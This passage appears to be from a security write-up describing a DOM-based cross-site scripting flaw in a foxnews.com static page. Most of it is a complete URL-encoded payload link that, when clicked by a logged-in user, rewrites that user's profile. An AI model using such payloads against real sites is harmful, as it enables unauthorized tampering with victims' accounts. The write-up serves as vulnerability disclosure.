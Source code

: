 In order to to call this function we have to go through the auth flow, which will require the following in the new code — all in[ this gist](https://gist.github.com/spudtrooper/bb3104d09acf57d18ff3e5985fa81df1):

1. Populate the page with enough DOM elements so the flow will complete and doesn’t crash — done through *addFakeContent*

1. Load all the scripts from the[ profile page](https://www.foxnews.com/community/auth/user/profile.html) to perform the auth — done through *loadAssets*

1. Call *setUserProfile *with new user properties — done through *changeProfile*

If you minify this code and add it to[ xdcomm.html](http://www.foxnews.com/static/v/all/html/xdcomm.html) you get a link that when clicked will change your profile to be Kermit the Frog:

[Change your profile to Kermit the Frog](http://www.foxnews.com/static/v/all/html/xdcomm.html#top;C=String.fromCharCode%2858%29,Q=String.fromCharCode%2839%29,d=document,cr=function%28e%29%7Breturn%20d.createElement%28e%29%7D,ap=function%28e%29%7Bd.body.appendChild%28e%29%7D,changeProfile=function%28%29%7Bu=%7B%7D,u.picture=%22https%22+C+%22//upload.wikimedia.org/wikipedia/en/thumb/6/62/Kermit_the_Frog.jpg/220px-Kermit_the_Frog.jpg%22,u.account_active=%22true%22,u.agreed_terms=!0,u.birthday=%221980-01-02%22,u.name=%22kermit@gmail.com%22,u.last_name=%22The%20Frog%22,u.first_name=%22Kermit%22,u.display_name=%28%22kermie%22+1e20*Math.random%28%29%29.substring%280,15%29,u.gender=%22male%22,u.zip_code=%2210503%22,u.political_views=%22democrat%22,p=%7B%7D,p.user_metadata=u,setUserProfile%28p,function%28e,a%29%7Bconsole.log%28JSON.stringify%28a%29%29%7D%29%7D,preparePage=function%28e%29%7B!function%28%29%7Bvar%20e=cr%28%22meta%22%29;e.setAttribute%28%22name%22,%22auth_type%22%29,e.setAttribute%28%22content%22,%22profile%22%29,d.head.appendChild%28e%29;var%20a=cr%28%22a%22%29;a.className=%22login%22,ap%28a%29;var%20t=cr%28%22button%22%29;function%20i%28e%29%7Breturn%22%3Cselect%20display=%22+Q+%22%20name=%22+Q+e+Q+%22%3E%3C/select%3E%22%7Dt.className=%22auth0-btn-logout%22,ap%28t%29,changePass=cr%28%22a%22%29,changePass.id=%22change-pass%22,ap%28changePass%29;var%20n=cr%28%22div%22%29;n.className=%22fn-user-profile%22,n.innerHTML=[i%28%22first_name%22%29,i%28%22birthday%22%29,i%28%22last_name%22%29,i%28%22display_name%22%29,i%28%22political_views%22%29,i%28%22household_income%22%29,i%28%22gender%22%29,i%28%22zip_code%22%29,i%28%22profile_picture%22%29,i%28%22fb_breaking_alerts%22%29,i%28%22fn_breaking_alerts%22%29,i%28%22fn_morn_headlines%22%29,i%28%22top_headline%22%29,i%28%22fn_opinion_headlines%22%29,i%28%22fn_fox_411_newsletter%22%29,i%28%22fn_science_and_technology%22%29,i%28%22fn_health_newsletter%22%29,i%28%22fox_fan_scoop%22%29,i%28%22halftime_report%22%29].join%28%22%22%29,ap%28n%29;var%20r=cr%28%22div%22%29;r.className=%22auth0-optional%22,r.innerHTML=[i%28%22political_views%22%29,i%28%22household_income%22%29,i%28%22fn_breaking_alerts%22%29,i%28%22fn_morn_headlines%22%29,i%28%22top_headline%22%29,i%28%22halftime_report%22%29].join%28%22%22%29,ap%28r%29%7D%28%29,function%20a%28t%29%7Bif%28t.length%29%7Bvar%20i,n,r=t.shift%28%29;i=%22//global.fncstatic.com/static/orion/scripts/core/%22+r,%28n=cr%28%22script%22%29%29.src=i,ap%28n%29,setTimeout%28a.bind%28this,t%29,100%29%7Delse%20setTimeout%28e,200%29%7D%28[%22auth/app/libs/core-js.min.js%22,%22auth/app/libs/sweetalert2.min.js%22,%22ag.core.js?v=20180509153054%22,%22auth/loader.js?v=20180509153054%22]%29%7D,preparePage%28changeProfile%29;:)

When logged into foxnews.com and click this link, your profile will turn into this:

![](https://cdn-images-1.medium.com/max/3200/0*mlfjL7cZ1d05LpiH)
